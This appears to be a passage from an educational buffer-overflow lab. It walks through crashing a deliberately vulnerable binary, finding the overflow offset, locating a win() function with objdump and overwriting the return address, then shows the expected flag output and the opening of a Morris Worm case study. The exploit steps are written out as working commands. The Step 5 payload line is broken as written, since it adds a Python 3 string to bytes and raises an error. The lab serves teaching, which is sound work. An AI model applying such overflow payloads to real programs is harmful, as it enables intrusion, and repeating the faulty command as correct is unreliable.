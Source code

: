 ### Lab Exercise Steps

**Step 1**: Test normal operation
```bash
./vulnerable
# Enter: Hello World
```

**Step 2**: Test for overflow
```bash
./vulnerable
# Enter: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Program should crash
```

**Step 3**: Find the offset
```bash
# Use pattern to find exact overflow point
python3 -c "print('A'*72 + 'BBBB')" | ./vulnerable
# Look for 0x42424242 (BBBB) in crash dump
```

**Step 4**: Find win() function address
```bash
objdump -d vulnerable | grep win
# Look for address like: 0000000000401146 <win>:
```

**Step 5**: Craft exploit
```bash
# Replace BBBB with address of win() function (little-endian)
python3 -c "import struct; print('A'*72 + struct.pack('<Q', 0x401146))" | ./vulnerable
```

### Expected Result
```
=== Buffer Overflow Lab ===
Try to call the win() function!
Enter your input: [exploit payload]
You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
🎉 Congratulations! You successfully exploited the buffer overflow!
🚩 Flag: CTF{buffer_overflow_master}
Segmentation fault (core dumped)
```

---

## Real-World Case Studies

### 1. Morris Worm (1988)
**First major internet worm**
- Exploited buffer overflow in `fingerd` daemon
- Used `gets()` function vulnerability
- Infected ~10% of internet-connected computers
- **Lesson**: Even simple vulnerabilities can have massive impact
